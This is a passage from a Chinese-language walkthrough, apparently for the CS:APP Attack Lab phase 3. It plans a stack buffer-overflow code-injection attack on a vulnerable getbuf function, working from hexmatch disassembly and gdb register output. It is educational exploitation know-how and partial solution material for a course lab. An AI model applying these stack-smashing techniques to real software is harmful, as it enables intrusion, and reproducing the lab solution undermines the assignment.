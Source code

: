 ```c
    }
    exit(0);
}
```
这就引入了一些问题：1）cookie 需要通过字符串进行传递而不是指针。2）调用 hexmatch 会破坏构造好的输入地字符串。所以针对地方法：

1. cookie 的地址是 0x59b997fa，转换成字符串的表示（每十六进制数码的 ASCII 值）35 39 62 39 39 37 66 61 00。35 存在的位置存放字符串的最低位的字符。不要忘记 NULL 字符用于节尾。
2. 确定哪一个位置不会被覆盖，看到 hexmatch 的反汇编代码：
```asm
000000000040184c <hexmatch>:
  40184c:	41 54                	push   %r12
  40184e:	55                   	push   %rbp
  40184f:	53                   	push   %rbx
  401850:	48 83 c4 80          	add    $0xffffffffffffff80,%rsp
  401854:	41 89 fc             	mov    %edi,%r12d
...
<__stack_chk_fail@plt>
  4018f1:	48 83 ec 80          	sub    $0xffffffffffffff80,%rsp

  4018f9:	c3                   	retq   
```
hexmatch 的调用并不修改 rsp + 0x28 以上的内容。所以字符串起始位置可以是：rsp + 0x28 + 0x8（覆盖缓存地址）。这个时候需要用 gdb 获取 rsp 的地址(运行的时候使用 Phase2 的结果就可以)
```asm
(gdb) break getbuf
Breakpoint 1, getbuf () at buf.c:12
12	in buf.c
(gdb) disas
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
End of assembler dump.
(gdb) si
14	in buf.c
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
=> 0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
End of assembler dump.
(gdb) info regesters
Undefined info command: "regesters".  Try "help info".
(gdb) info regs
Undefined info command: "regs".  Try "help info".
(gdb) info registers
rax            0x0	0
rbx            0x55586000	1431855104
rcx            0x0	0
rdx            0x7ffff7dd18a0	140737351850144
rsi            0xc	12
rdi            0x606260	6316640
rbp            0x55685fe8	0x55685fe8
rsp            0x5561dc78	0x5561dc78
r8             0x7ffff7fdf500	140737354003712
r9             0x0	0
r10            0x4032b4	4207284
```